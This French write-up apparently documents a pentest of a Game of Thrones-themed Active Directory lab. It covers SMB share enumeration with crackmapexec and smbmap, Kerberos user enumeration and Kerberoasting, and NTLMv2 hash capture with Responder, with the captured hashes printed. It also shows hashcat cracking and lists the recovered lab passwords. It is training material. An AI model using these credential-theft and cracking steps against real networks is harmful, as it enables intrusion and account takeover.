

## Scan  des machines 

Castelblack : 

Scan agressif : 

Vous trouverez dans le dossier scan associé les scans agressifs de chaque machine.

## Scan avec crackmapexec 

Je créer un fichier host qui comprend toute les adresses ip des serveurs.

Je lance scan : 

Infos récupérées : 

    Hôte CASTELBLACK (10.202.0.164) :
        Système d'exploitation : Windows 10.0 Build 17763 x64
        Nom de l'ordinateur : CASTELBLACK
        Domaine : north.sevenkingdoms.local
        Signature (signing) : Désactivée
        Protocole SMB version 1 (SMBv1) : Désactivé

    Hôte MEEREEN (10.202.0.133) :
        Système d'exploitation : Windows Server 2016 Standard Evaluation 14393 x64
        Nom de l'ordinateur : MEEREEN
        Domaine : essos.local
        Signature (signing) : Activée
        Protocole SMB version 1 (SMBv1) : Activé

    Hôte KINGSLANDING (10.202.0.198) :
        Système d'exploitation : Windows 10.0 Build 17763 x64
        Nom de l'ordinateur : KINGSLANDING
        Domaine : sevenkingdoms.local
        Signature (signing) : Activée
        Protocole SMB version 1 (SMBv1) : Désactivé

    Hôte WINTERFELL (10.202.0.155) :
        Système d'exploitation : Windows 10.0 Build 17763 x64
        Nom de l'ordinateur : WINTERFELL
        Domaine : north.sevenkingdoms.local
        Signature (signing) : Activée
        Protocole SMB version 1 (SMBv1) : Désactivé

    Hôte BRAAVOS (10.202.0.199) :
        Système d'exploitation : Windows Server 2016 Standard Evaluation 14393 x64
        Nom de l'ordinateur : BRAAVOS
        Domaine : essos.local
        Signature (signing) : Désactivée
        Protocole SMB version 1 (SMBv1) : Activé

On remarque 2 domaines : **essos.local** : **sevenkingdoms.local** et un sous domaine  : **north.sevenkingdoms.local**

### Découverte d'un active directory en anonyme : 

Le scan avec tous les résultats sont dans le dossier scan

On remarque du SMB (v1), il serait cool de faire des tests avec smbmap :

Voici un scan possible pour voir les sessions SMB : 

La commande  :
    
    smbmap --host-file host -u admin

Je spécifie toujours mes host(s) et un utilisateur(admin)

Je spécifie toujours mes hostd(s) et un utilisateur test

On remarque des session de partage pour les IP 10.202.0.164,10.202.0.199 et 10.202.0.199

### Pour le partage sur l'ip 10.202.0.164 

Droit : READ,WRITE 
SESSION INVITÉ 

Je créer un fichier .

Je vérifie sur la machine castelblack (Hors pentest)

On remarque que le fichier est bien créer, cela fonctionne.
### Pour le partage sur l'ip 10.202.0.199

Droit READ,WRITE  
SESSION invité 

### Pour le partage sur l'ip 10.202.0.155

Il ne semble pas être accessible depuis une session invité, nous n'avons pas de session admin, la connection est impossible.

# Liste des utilisateurs Kerberos.

## Enumération des utilisateurs Kerberos avec Nmap :

### Pour le royaume **essos.local** : 

### Pour le royaume **sevenkingdoms.local**

### Pour le domaine **north.sevenkingdoms.local**

Une fois que nous avons les utilisateurs nous pouvons chercher les KDC(s)

Une fois que nous avons identifier les DKCs nous pouvons les mettre dans le fichier hosts de notre machine.

sudo nano /etc/hosts

Une fois le fichier host on peut essayer de récupérer le hash

### Crack du hash du compte brandon.stark
J'utilise le mode 

On remarque le mot de passe **iseedeadpeople** pour le compte brandon.stark

Je relance un scan avec l'utilisateur  brandon.stark et son mot de passe 

        crackmapexec smb host -u brandon.stark -p iseedeadpeople

On remarque un accès valide pour le compte sur le domaine essos.local et north.sevenkingdoms.local (avec le mot de passe iseedeadpeople)

Je relance un scan smbmap pour vérifier si il a accès de de nouvelle session

On remarque uniquement une session que nous avions déjà détecté.

Enumération des utilisateurs de l'AD via le compte obtenue

Voici les utilisateurs de l'AD :

    Administrator                                         
    Guest                                               
    krbtgt                                                   
    arya.stark                                           
    eddard.stark                                         
    catelyn.stark                                        
    robb.stark                                         
    sansa.stark                                          
    brandon.stark                                        
    rickon.stark                                          
    hodor                                                 
    jon.snow                                              
    amwell.tarly                                         
    jeor.mormont                                          
    ql_svc             

Récupération des hashs avec du Kerberoasting

Je remarque 2 hashs, le compte jon.snow et sql_svc

Je tente de cracker le hash sql_sve

J'utilise le mode 

Pour le hash du compte jon.snow

Le mot de passe identifié est **iknownothing**

Une fois que nous avons l'utilisateur jon.snow avec son mot de passe on peut recommencer une énumération des partages samba.

On remarque la ligne **SMB 10.202.0.164    445    CASTELBLACK      public          READ            Basic Read share for all domain users**

On remarque aussi la ligne **SMB         10.202.0.199    445    BRAAVOS          public          READ,WRITE      Basic Read share for all domain users**

Nous possédons un utilisateur du domaine donc potentiellement accès en Lecture et écriture à un partage public

Il est possible d'utiliser un tool Kali linux qui permet de demander des hash NTLM au machine dans le réseau.

    sudo responder -I eth0

    [SMB] NTLMv2-SSP Username : NORTH\eddard.stark
    [SMB] NTLMv2-SSP Hash     : eddard.stark::NORTH:2dac7e63a09eefd2:6A6C88995EC3ABF343D0A98490D73FA8:010100000000000080E81272FA27DA014F0E7231B471E34B00000000020008005A0046004E00390001001E00570049004E002D0045004E0058004A00440034005A004D0054005A00410004003400570049004E002D0045004E0058004A00440034005A004D0054005A0041002E005A0046004E0039002E004C004F00430041004C00030014005A0046004E0039002E004C004F00430041004C00050014005A0046004E0039002E004C004F00430041004C000700080080E81272FA27DA0106000400020000000800300030000000000000000000000000300000FBF7F3A696C1E52E83901238C6255CECE767EC91B6759E8072604E757B78C41E0A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000

    
    [SMB] NTLMv2-SSP Username : NORTH\robb.stark
    [SMB] NTLMv2-SSP Hash     : robb.stark::NORTH:b60205b9be410ce8:B2B9C208CB540B17A56DF000474A6FE5:010100000000000080E81272FA27DA0110423EC5A663912500000000020008005A0046004E00390001001E00570049004E002D0045004E0058004A00440034005A004D0054005A00410004003400570049004E002D0045004E0058004A00440034005A004D0054005A0041002E005A0046004E0039002E004C004F00430041004C00030014005A0046004E0039002E004C004F00430041004C00050014005A0046004E0039002E004C004F00430041004C000700080080E81272FA27DA0106000400020000000800300030000000000000000000000000300000FBF7F3A696C1E52E83901238C6255CECE767EC91B6759E8072604E757B78C41E0A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000

Crack des hashs : 
Pour connaitre le mode  du NTLMV2: 

### Pour le hash de eddard.stark : 

    hashcat -m 5600 --force -a 0 eddard /usr/share/wordlists/rockyou.txt.gz

Aucune mot de passe

### Pour le hash de roob.stark

    hashcat -m 5600 --force -a 0 roob /usr/share/wordlists/rockyou.txt.gz

Mot de passe identifié :**sexywolfy**
